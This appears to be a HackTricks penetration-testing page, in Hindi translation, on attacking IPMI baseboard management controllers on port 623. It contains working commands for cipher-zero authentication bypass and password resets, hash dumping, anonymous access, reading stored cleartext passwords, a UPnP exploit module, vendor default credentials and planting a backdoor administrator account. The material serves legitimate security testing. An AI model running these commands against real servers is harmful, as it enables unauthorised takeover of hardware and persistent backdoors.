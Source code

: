 # 623/UDP/TCP - IPMI

{{#include ../banners/hacktricks-training.md}}


## Basic Information

### **IPMI का अवलोकन**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** कंप्यूटर सिस्टम के दूरस्थ प्रबंधन और निगरानी के लिए एक मानकीकृत दृष्टिकोण प्रदान करता है, जो ऑपरेटिंग सिस्टम या पावर स्थिति से स्वतंत्र है। यह तकनीक सिस्टम प्रशासकों को दूरस्थ रूप से सिस्टम प्रबंधित करने की अनुमति देती है, यहां तक कि जब वे बंद या असंवेदनशील होते हैं, और यह विशेष रूप से उपयोगी है:

- प्री-ओएस बूट कॉन्फ़िगरेशन
- पावर-ऑफ प्रबंधन
- सिस्टम विफलताओं से पुनर्प्राप्ति

IPMI तापमान, वोल्टेज, फैन स्पीड और पावर सप्लाई की निगरानी करने में सक्षम है, साथ ही इन्वेंटरी जानकारी प्रदान करता है, हार्डवेयर लॉग की समीक्षा करता है, और SNMP के माध्यम से अलर्ट भेजता है। इसके संचालन के लिए एक पावर स्रोत और एक LAN कनेक्शन आवश्यक हैं।

1998 में Intel द्वारा पेश किए जाने के बाद से, IPMI को कई विक्रेताओं द्वारा समर्थित किया गया है, जो दूरस्थ प्रबंधन क्षमताओं को बढ़ाता है, विशेष रूप से संस्करण 2.0 के LAN पर सीरियल के समर्थन के साथ। मुख्य घटक शामिल हैं:

- **Baseboard Management Controller (BMC):** IPMI संचालन के लिए मुख्य माइक्रो-कंट्रोलर।
- **संचार बस और इंटरफेस:** आंतरिक और बाहरी संचार के लिए, जिसमें ICMB, IPMB, और स्थानीय और नेटवर्क कनेक्शनों के लिए विभिन्न इंटरफेस शामिल हैं।
- **IPMI मेमोरी:** लॉग और डेटा संग्रहीत करने के लिए।

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**डिफ़ॉल्ट पोर्ट**: 623/UDP/TCP (यह आमतौर पर UDP पर होता है लेकिन यह TCP पर भी चल सकता है)

## Enumeration

### Discovery
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
आप **संस्करण** का **पहचान** कर सकते हैं:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI Vulnerabilities

IPMI 2.0 के क्षेत्र में, Dan Farmer द्वारा एक महत्वपूर्ण सुरक्षा दोष का पता लगाया गया, जो **cipher type 0** के माध्यम से एक भेद्यता को उजागर करता है। यह भेद्यता, जिसका विस्तृत विवरण [Dan Farmer's research](http://fish2.com/ipmi/cipherzero.html) में दिया गया है, किसी भी पासवर्ड के साथ अनधिकृत पहुंच की अनुमति देती है यदि एक मान्य उपयोगकर्ता को लक्षित किया जाए। यह कमजोरी HP, Dell, और Supermicro जैसे निर्माताओं के विभिन्न BMCs में पाई गई, जो सभी IPMI 2.0 कार्यान्वयन में एक व्यापक समस्या का सुझाव देती है।

### **IPMI Authentication Bypass via Cipher 0**

इस दोष का पता लगाने के लिए, निम्नलिखित Metasploit सहायक स्कैनर का उपयोग किया जा सकता है:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
इस दोष का शोषण `ipmitool` के साथ किया जा सकता है, जैसा कि नीचे प्रदर्शित किया गया है, जो उपयोगकर्ता पासवर्ड की सूची बनाने और संशोधित करने की अनुमति देता है:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP प्रमाणीकरण दूरस्थ पासवर्ड हैश पुनर्प्राप्ति**

यह सुरक्षा कमी किसी भी मौजूदा उपयोगकर्ता नाम के लिए नमकीन हैश किए गए पासवर्ड (MD5 और SHA1) की पुनर्प्राप्ति की अनुमति देती है। इस सुरक्षा कमी का परीक्षण करने के लिए, Metasploit एक मॉड्यूल प्रदान करता है:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI गुमनाम प्रमाणीकरण**

कई BMCs में एक डिफ़ॉल्ट कॉन्फ़िगरेशन "गुमनाम" पहुँच की अनुमति देता है, जो शून्य उपयोगकर्ता नाम और पासवर्ड स्ट्रिंग द्वारा विशेषता प्राप्त करता है। इस कॉन्फ़िगरेशन का उपयोग `ipmitool` का उपयोग करके नामित उपयोगकर्ता खातों के पासवर्ड को रीसेट करने के लिए किया जा सकता है:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI स्पष्ट-पाठ पासवर्ड**

IPMI 2.0 में एक महत्वपूर्ण डिज़ाइन विकल्प BMCs के भीतर प्रमाणीकरण उद्देश्यों के लिए स्पष्ट-पाठ पासवर्डों के भंडारण की आवश्यकता करता है। Supermicro द्वारा इन पासवर्डों को `/nv/PSBlock` या `/nv/PSStore` जैसे स्थानों में संग्रहीत करने से महत्वपूर्ण सुरक्षा चिंताएँ उठती हैं:
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP Vulnerability**

Supermicro के IPMI फर्मवेयर में UPnP SSDP श्रोता का समावेश, विशेष रूप से UDP पोर्ट 1900 पर, एक गंभीर सुरक्षा जोखिम प्रस्तुत करता है। Intel SDK for UPnP Devices संस्करण 1.3.1 में कमजोरियाँ, जैसा कि [Rapid7's disclosure](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play) में विस्तृत किया गया है, BMC तक रूट एक्सेस की अनुमति देती हैं:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP अपने **Integrated Lights Out (iLO)** उत्पाद के लिए डिफ़ॉल्ट पासवर्ड को निर्माण के दौरान यादृच्छिक बनाता है। यह प्रथा अन्य निर्माताओं के विपरीत है, जो आमतौर पर **स्थिर डिफ़ॉल्ट क्रेडेंशियल्स** का उपयोग करते हैं। विभिन्न उत्पादों के लिए डिफ़ॉल्ट उपयोगकर्ता नाम और पासवर्ड का सारांश इस प्रकार है:

- **HP Integrated Lights Out (iLO)** एक **फैक्टरी यादृच्छिक 8-चरित्र स्ट्रिंग** को अपने डिफ़ॉल्ट पासवर्ड के रूप में उपयोग करता है, जो उच्च सुरक्षा स्तर को दर्शाता है।
- **Dell's iDRAC, IBM's IMM**, और **Fujitsu's Integrated Remote Management Controller** जैसे उत्पाद आसानी से अनुमानित पासवर्ड का उपयोग करते हैं जैसे "calvin", "PASSW0RD" (शून्य के साथ), और "admin" क्रमशः।
- इसी तरह, **Supermicro IPMI (2.0), Oracle/Sun ILOM**, और **ASUS iKVM BMC** भी सरल डिफ़ॉल्ट क्रेडेंशियल्स का उपयोग करते हैं, जिनमें "ADMIN", "changeme", और "admin" उनके पासवर्ड के रूप में कार्य करते हैं।

## Accessing the Host via BMC

Baseboard Management Controller (BMC) तक प्रशासनिक पहुंच होस्ट के ऑपरेटिंग सिस्टम तक पहुंचने के लिए विभिन्न मार्ग खोलती है। एक सीधा दृष्टिकोण BMC के कीबोर्ड, वीडियो, माउस (KVM) कार्यक्षमता का लाभ उठाना है। यह या तो GRUB के माध्यम से रूट शेल पर होस्ट को पुनरारंभ करके (`init=/bin/sh`) या एक वर्चुअल CD-ROM से बूट करके किया जा सकता है जिसे एक बचाव डिस्क के रूप में सेट किया गया है। ऐसे तरीके होस्ट के डिस्क में सीधे हेरफेर की अनुमति देते हैं, जिसमें बैकडोर डालना, डेटा निकालना, या सुरक्षा मूल्यांकन के लिए आवश्यक किसी भी कार्रवाई को करना शामिल है। हालाँकि, इसके लिए होस्ट को पुनरारंभ करना आवश्यक है, जो एक महत्वपूर्ण कमी है। बिना पुनरारंभ किए, चल रहे होस्ट तक पहुंचना अधिक जटिल है और होस्ट की कॉन्फ़िगरेशन के साथ भिन्न होता है। यदि होस्ट का भौतिक या अनुक्रमिक कंसोल लॉग इन रहता है, तो इसे BMC के KVM या सीरियल-ओवर-LAN (sol) कार्यक्षमताओं के माध्यम से `ipmitool` के माध्यम से आसानी से नियंत्रित किया जा सकता है। साझा हार्डवेयर संसाधनों, जैसे i2c बस और सुपर I/O चिप के शोषण की खोज एक ऐसा क्षेत्र है जिसे आगे की जांच की आवश्यकता है।

## Introducing Backdoors into BMC from the Host

BMC से लैस एक होस्ट से समझौता करने पर, **स्थानीय BMC इंटरफ़ेस का उपयोग एक बैकडोर उपयोगकर्ता खाता डालने के लिए किया जा सकता है**, जो सर्वर पर एक स्थायी उपस्थिति बनाता है। इस हमले के लिए समझौता किए गए होस्ट पर **`ipmitool`** की उपस्थिति और BMC ड्राइवर समर्थन को सक्रिय करने की आवश्यकता होती है। निम्नलिखित कमांड दर्शाते हैं कि कैसे एक नया उपयोगकर्ता खाता होस्ट के स्थानीय इंटरफ़ेस का उपयोग करके BMC में इंजेक्ट किया जा सकता है, जो प्रमाणीकरण की आवश्यकता को बायपास करता है। यह तकनीक लिनक्स, विंडोज, BSD, और यहां तक कि DOS सहित विभिन्न ऑपरेटिंग सिस्टम पर लागू होती है।
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

- `port:623`

## References

- [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)


{{#include ../banners/hacktricks-training.md}}
